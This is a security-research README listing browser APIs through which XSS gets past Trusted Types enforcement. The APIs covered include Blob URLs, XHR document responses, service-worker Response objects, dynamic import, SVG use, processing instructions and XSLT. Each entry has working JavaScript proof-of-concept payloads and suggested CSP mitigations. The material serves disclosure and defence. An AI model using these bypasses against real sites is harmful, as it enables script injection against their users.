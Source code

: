 # Cursed Types

This repo contains list of DOM-based XSS sinks which are not subject to [Trusted Types](https://web.dev/trusted-types/) checks. Contributions welcome! 😊

## Blob URL

Trusted Types enforced on a document will be inherited to Blob URL when navigating to Blob URL. However, resulting document of the Blob URL contains stored XSS payload, and therefore it bypasses Trusted Types check.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/blob_url.html):
```
let attackerControlledString = '<img src=x onerror=alert(origin)>';
const blob = new Blob([attackerControlledString], {type: 'text/html'});
const url = URL.createObjectURL(blob);
location.href = url;
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- There is a discussion to provide an option for creating a [secure Blob URL](https://github.com/w3c/FileAPI/issues/74).

## XHR document response

XMLHttpRequest (XHR) supports [`document` response type](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/HTML_in_XMLHttpRequest), which returns parsed document of XHR response instead of text.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/xhr_document.html):
```
let attackerControlledString = 'data:text/html,<img id=content src=x onerror=alert(origin)>';
const xhr = new XMLHttpRequest();
xhr.onload = function() {
  document.body.appendChild(this.response.querySelector('#content'));
}

xhr.open("GET", attackerControlledString);
// The following changes response type from text to parsed document.
xhr.responseType = "document";
xhr.send();
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- Only allow trusted endpoints in [CSP connect-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src).

## Response API

[Response API](https://developer.mozilla.org/en-US/docs/Web/API/Response/Response) can be used in several places to serve a response of a request through Service Worker. If the Response is generated from user input, this could result in Trusted Types bypasses.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/service_worker_response.html):
```
self.addEventListener('fetch', event => {
  const params = new URLSearchParams(event.request.url.split('?')[1]);
  let attackerControlledString = params.get('attackerControlledString');
  
  if (attackerControlledString) {
    init = {
      headers: {
        'Content-Type': 'text/html',
        'Content-Security-Policy': "require-trusted-types-for 'script'; trusted-types 'none';"
          
      }
    };
    event.respondWith(new Response(attackerControlledString, init));
  }
});
```

```
// Assuming legit service worker returns cached content.
caches.open("v1").then(cache => {
  let attackerControlledString = '<img src=x onerror=alert(origin)>';
  init = {
    headers: {
      'Content-Type': 'text/html',
      'Content-Security-Policy': "require-trusted-types-for 'script'; trusted-types 'none';"

    }
  };
  cache.put('xss', new Response(attackerControlledString, init));
})
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).

## Non-DOM API based script loading

[Non-DOM API based script loading](https://github.com/w3c/webappsec-trusted-types/issues/232) currently bypasses Trusted Types.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/script_loading.html):
```
let attackerControlledString = 'data:application/javascript,alert(origin)';
import(attackerControlledString);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp) + serve allow-list of script endpoints in another `script-src` directive.

## SVG `<use>` element

[SVG `<use>`](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/use) element takes `href` attribute, which can import an external SVG image from given URL. This currently bypasses Trusted Types check. This was found by [Masato](https://twitter.com/kinugawamasato).


[PoC](https://shhnjk.github.io/PoCs/cursed_types/svg_use.html):
```
let attackerControlledString = 
    `data:image/svg+xml,
     <svg id="x" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
       <image href="x" onerror="alert(origin)" />
     </svg>#x`;
const svg = document.createElementNS('http://www.w3.org/2000/svg', 'svg');
const use = document.createElementNS('http://www.w3.org/2000/svg', 'use');
use.setAttributeNS('http://www.w3.org/1999/xlink', 'href', attackerControlledString);
svg.appendChild(use);    
document.body.appendChild(svg);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- This is likely to be fixed in the future ([reference](https://github.com/w3c/webappsec-trusted-types/issues/357)).

## document.createProcessingInstruction API

[`document.createProcessingInstruction`](https://developer.mozilla.org/en-US/docs/Web/API/Document/createProcessingInstruction) can create [processing instruction](https://developer.mozilla.org/en-US/docs/Web/API/ProcessingInstruction) node from given URL and content type. This node can be inserted to a document which is [valid as XML](https://twitter.com/kinugawamasato/status/1493901445103439876). Currently there is no Trusted Types check on `document.createProcessingInstruction`. This was found by [Masato](https://twitter.com/kinugawamasato).

[PoC](https://shhnjk.github.io/PoCs/cursed_types/createProcessingInstruction.xml):
```
/*
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:output method="html" />
  <xsl:template match="/">
    <script>alert(origin)</script>
  </xsl:template>
</xsl:stylesheet>
*/
let attackerControlledString = 'data:text/xml;base64,PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPHhzbDpzdHlsZXNoZWV0IHhtbG5zOnhzbD0iaHR0cDovL3d3dy53My5vcmcvMTk5OS9YU0wvVHJhbnNmb3JtIiB2ZXJzaW9uPSIxLjAiPgogIDx4c2w6b3V0cHV0IG1ldGhvZD0iaHRtbCIgLz4KICA8eHNsOnRlbXBsYXRlIG1hdGNoPSIvIj4KICAgIDxzY3JpcHQ+YWxlcnQob3JpZ2luKTwvc2NyaXB0PgogIDwveHNsOnRlbXBsYXRlPgo8L3hzbDpzdHlsZXNoZWV0Pg==';
const pi = document.createProcessingInstruction('xml-stylesheet', `href='${attackerControlledString}' type='text/xml'`);
document.insertBefore(pi, document.firstChild);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).

## XSLT

Some elements in [XSLT](https://developer.mozilla.org/en-US/docs/Web/XSLT) supports `disable-output-escaping` attribute (such as [`<xsl:text>`](https://developer.mozilla.org/en-US/docs/Web/XSLT/Element/text) and [`<xsl:value-of>`](https://developer.mozilla.org/en-US/docs/Web/XSLT/Element/value-of)). When `disable-output-escaping` is set to `yes`, escaping of HTML special characters will be disabled (and therefore XSS will be triggered). Currently, Trusted Types is bypassible in this case. This was found by [Alex](https://twitter.com/insertScript).

[PoC](https://shhnjk.github.io/PoCs/cursed_types/xslt.html):
```
let attackerControlledString = '<img src=x onerror=alert(origin)>';
const doc = document.implementation.createHTMLDocument();
const xslt = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:stylesheet');
xslt.setAttribute('xmlns:xsl', 'http://www.w3.org/1999/XSL/Transform');
const template = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:template');
template.setAttribute('match', '/');
const output = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:output');
output.setAttribute('method', 'html');
xslt.appendChild(output);
const text = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:text');
text.textContent = attackerControlledString;
text.setAttribute('disable-output-escaping', 'yes');
template.appendChild(text);
xslt.appendChild(template);
const processor = new XSLTProcessor();
processor.importStylesheet(xslt);
const fragment = processor.transformToFragment(doc, document);
document.body.appendChild(fragment);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
